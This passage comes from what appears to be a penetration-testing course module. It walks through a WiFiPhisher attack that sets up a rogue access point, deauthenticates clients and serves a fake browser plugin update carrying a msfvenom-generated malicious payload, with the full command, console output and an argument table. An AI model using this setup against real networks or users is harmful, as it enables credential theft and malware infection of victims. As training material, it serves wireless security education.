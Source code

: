 [-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe file: 7168 bytes
</code></pre>
<p>Finally, we run the plugin update phishing scenario using the following command:</p>
<pre><code class="language-shell-session">[!bash!]$ wifiphisher -aI wlan0 -eI wlan1 -p plugin_update  --payload-path /home/wifi/shell.elf -kN

Authorization required, but no authorization protocol specified
Authorization required, but no authorization protocol specified
[*] Starting Wifiphisher 1.4GIT ( https://wifiphisher.org ) at 2025-01-18 22:18
[+] Timezone detected. Setting channel range to 1-13
[+] Selecting wlan1 interface for the deauthentication attack
[+] Selecting wlan0 interface for creating the rogue Access Point
[+] Changing wlan0 MAC addr (BSSID) to 00:00:00:71:cd:a2
[+] Changing wlan0 MAC addr (BSSID) to 00:00:00:02:c3:8e
[*] Cleared leases, started DHCP, set up iptables
[+] Selecting Browser Plugin Update template
[*] Using /home/wifi/shell.elf as payload 
[*] Starting the fake access point...
[*] Starting HTTP/HTTPS server at ports 8080, 443
[+] Show your support!
[+] Follow us: https://twitter.com/wifiphisher
[+] Like us: https://www.facebook.com/Wifiphisher
[+] Captured credentials:
</code></pre>
<p>Here's a breakdown of the command::</p>
<table>
<thead>
<tr>
<th>Argument</th>
<th>Description</th>
</tr>
</thead>
<tbody>
<tr>
<td><code>-aI wlan0</code></td>
<td>This specifies the interface (wlan0) that will host the rogue AP.</td>
</tr>
<tr>
<td><code>-eI wlan1</code></td>
<td>This specifies the interface (wlan1) that will perform the deauthentication and DOS attack.</td>
</tr>
<tr>
<td><code>-p plugin_update </code></td>
<td>This selects the phishing scenario, in this case, a fake plugin update page.</td>
</tr>
<tr>
<td><code>--payload-path /home/wifi/shell.elf</code></td>
<td>This specifies the location of the malicious payload to deliver to the victim.</td>
</tr>
<tr>
<td><code>-kN</code></td>
<td>Prevents the attack from killing the NetworkManager, allowing you to maintain other network functionalities on the attacking machine.</td>
</tr>
</tbody>
</table>
<p>Once the target network is identified, we press <code>[Enter]</code> to select it.</p>
<p><img alt="WiFiPhisher" src="https://academy.hackthebox.com/storage/modules/291/wifiphisher/plug_000.PNG"/></p>